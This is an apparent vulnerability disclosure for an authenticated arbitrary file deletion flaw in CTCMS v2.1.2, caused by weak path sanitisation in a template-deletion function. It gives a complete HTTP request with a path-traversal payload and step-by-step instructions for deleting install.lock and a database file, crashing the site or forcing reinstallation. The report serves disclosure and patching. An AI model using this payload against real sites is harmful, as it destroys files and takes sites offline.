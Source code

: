 **Exploit Title: CTCMS Arbitrary File Deletion Vulnerability (Authenticated)**

**Version: CTCMS v2.1.2**

**Google Dork: N/A**

**Date: 04/28/2025**

**Tested on: Apache2.4, MySQL5.7, PHP7.0**

**Software Link: https://www.ctcms.cn/**

**Description: CTCMS contains an arbitrary file deletion vulnerability in the del() function located in ctcms\apps\controllers\admin\Tpl.php. The function improperly sanitizes user input by stripping .. and //, but this can be bypassed using combinations of ./ and ../. An attacker can craft payloads to traverse outside the intended directory and delete arbitrary files on the server, such as critical configuration files (config.php), sensitive data files, or even core system files like install.lock. Deleting these files can cause the website to crash, force a system reinstallation, expose sensitive information, or even lead to complete system compromise, making this a highly critical vulnerability.**
![image](https://github.com/user-attachments/assets/58343984-9a95-4171-b123-d5e704b9d184)

**Payload used:**
```
GET /admin.php?c=tpl&m=del&file=./../././../././../././../././../././../././../././.././xp/www/caches/install.lock HTTP/1.1
Host: 192.168.153.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://192.168.153.131/admin.php
Cookie: xp=MTc0NTc3MTQ0NXxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFaaE9HTXhZelk9fLfXy9K7NUGqvBUsEOTgtwOD7EjQk0skM9Tqng5AChpr; admin_id=1; admin_login=7794edacfeda974d8f8573596718281a; admin_logip=%E6%9C%AA%E7%99%BB%E9%99%86; admin_logtime=%E6%9C%AA%E7%99%BB%E9%99%86; ctcms_=hbhr9e4gijf3rvou9n7funciuo
Upgrade-Insecure-Requests: 1
Priority: u=4
Pragma: no-cache
Cache-Control: no-cache
```
**Example：**
1.Log in to the management backend and navigate to the template management section.

![image](https://github.com/user-attachments/assets/a3a56845-012c-4af9-a444-31ce171c5c6d)

2.Select an HTML template to delete, then use Burp Suite (or a similar tool) to intercept and modify the request. Change the file parameter to point to a sensitive ```file```, such as ./../././../././../././.././install.lock.

![image](https://github.com/user-attachments/assets/db637a5f-e2c8-48e8-9ea4-c4c4a1511afc)

3.After successfully deleting the file, visit the website, which will trigger the installation wizard due to the missing install.lock file, indicating that the website is attempting to reinstall.
![image](https://github.com/user-attachments/assets/dd17bd39-5976-4e8c-b251-dfb7012f8832)

4.Now, modify the payload to target a critical file such as Ct_DB.php, and delete it. Afterward, when visiting the website, it will display a blank page due to the absence of the Ct_DB.php file, causing the website to crash.

![image](https://github.com/user-attachments/assets/fb81e7b9-9c74-4663-86e5-918b0faaa35c)

![image](https://github.com/user-attachments/assets/2705eb29-f474-403e-8e65-b186f4187487)
